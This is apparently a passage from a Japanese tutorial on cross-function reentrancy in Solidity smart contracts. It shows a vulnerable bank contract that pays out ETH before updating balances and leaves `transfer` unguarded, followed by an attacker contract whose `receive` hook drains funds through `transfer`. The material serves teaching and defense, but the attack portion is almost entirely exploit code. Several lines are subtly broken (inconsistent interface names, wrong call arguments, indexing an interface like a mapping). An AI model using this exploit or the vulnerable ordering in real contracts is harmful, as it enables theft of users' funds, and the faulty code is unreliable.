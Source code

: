 ```
  function deposit() external payable {
    require(msg.value > 0, "Deposit amount must ba greater than 0");
    balances[msg.sender] += msg.value;
  }

  function withdraw(uint256 _amount) external nonReentrant {
    uint256 balance = balances[msg.sender];
    require(balance >= _amount, "Insufficient balance");

    (bool success, ) = msg.sender.call{value: _amount}("");
    require(success, "Withdraw failed");

    balances[msg.sender] = balance - _amount;
  }

  function transfer(address _to, uint256 _amount) external {
    uint256 balance = balances[msg.sender];
    require(balance >= _amount, "Insufficient balance");

    balances[msg.sender] -= _amount;
    balances[_to] += _amount;
  }
}
```

上記の`VulnerableBank`コントラクトでは、`ETH`転送のステップは`withdraw`関数内にのみ存在し、この関数はすでにリエントランシーロック`nonReentrant`を使用していることがわかります。では、このコントラクトに対してリエントランシー攻撃を行う他の方法はあるでしょうか？

以下の攻撃者コントラクトの例をご覧ください：

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

import "../IVault.sol";

contract Attack2Contract {
    address victim;
    address owner;

    constructor(address _victim, address _owner) {
        victim = _victim;
        owner = _owner;
    }

    function deposit() external payable {
        IVault(victim).deposit{value: msg.value}("");
    }

    function withdraw() external {
        Ivault(victim).withdraw();
    }

    receive() external payable {
        uint256 balance = Ivault(victim).balances[address(this)];
        Ivault(victim).transfer(owner, balance);
    }
}
```
